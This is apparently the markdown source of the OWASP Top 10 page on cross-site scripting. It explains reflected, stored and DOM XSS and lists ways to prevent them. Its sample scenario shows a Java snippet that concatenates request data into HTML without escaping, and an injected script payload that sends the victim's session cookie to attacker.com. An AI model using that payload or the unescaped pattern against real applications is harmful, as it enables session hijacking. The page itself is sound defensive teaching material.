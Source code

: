 ```yaml
---

title: A7 - Cross-Site Scripting (XSS)
layout: col-generic
top-ten: 7
exploitability: 3
prevalance: 3
detectability: 3
techincal: 2
og-summary: This is the summar that goes in og meta tags so when shared on social/slack it has a customized summary of the page as opposed to random front content

---
```

<p> <i class="fa fa-exclamation-circle"  style="color:orange; padding-right: 5px"></i>Exploitablity
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Prevalence
  <i class="fa fa-exclamation-triangle"  style="color:red; padding-left: 20px; padding-right: 5px"></i>Detectability
  <i class="fa fa-skull-crossbones" style="color:black; padding-left: 20px; padding-right: 5px"></i>Technnical
</p>

***
The most common Cross-Site Scripting vulnerability is where the application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.

- **Threat Agent / Attack Vectors**: Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
- **Security Weakness**: XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br/>Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
- **Impacts**: The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
 
### Is the Applicaton Vulnerable
There are three forms of XSS, usually targeting users' browsers:
1. Reflected XSS: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.
2. Stored XSS: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.
3. DOM XSS: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

### How to Prevent
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The <u>[[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'XSS Prevention']]</u> has details on the required data escaping techniques.
- Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the <u>[[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet 'DOM based XSS Prevention']].
- Enabling a <u>[https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP Content Security Policy (CSP)]</u> as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).

### Sample Attack Scenarios

Scenario #1: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```
(String) page += "<input name='creditcard' type='TEXT'<br>value='" + request.getParameter("CC") + "'>";
```

The attacker modifies the ‘CC’ parameter in the browser to:

```
'><script>document.location=<br/>'<nowiki>h</nowiki>ttp://www.attacker.com/cgi-bin/cookie.cgi?
```

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

Note: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

### References

OWASP
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Encode Data]]
- [[OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016|OWASP Proactive Controls: Validate Data]]
- [[:Category:OWASP_Application_Security_Verification_Standard_Project|OWASP Application Security Verification Standard: V5]]
- [[Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)|OWASP Testing Guide: Testing for Reflected XSS]]
- [[Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)|OWASP Testing Guide: Testing for Stored XSS]]
- [[Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)|OWASP Testing Guide: Testing for DOM XSS]]
- [[XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet|OWASP Cheat Sheet: XSS Prevention]]
- [[DOM_based_XSS_Prevention_Cheat_Sheet|OWASP Cheat Sheet: DOM based XSS Prevention]]
- [[XSS_Filter_Evasion_Cheat_Sheet|OWASP Cheat Sheet: XSS Filter Evasion]]
- [[OWASP_Java_Encoder_Project|OWASP Java Encoder Project]]

External
- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
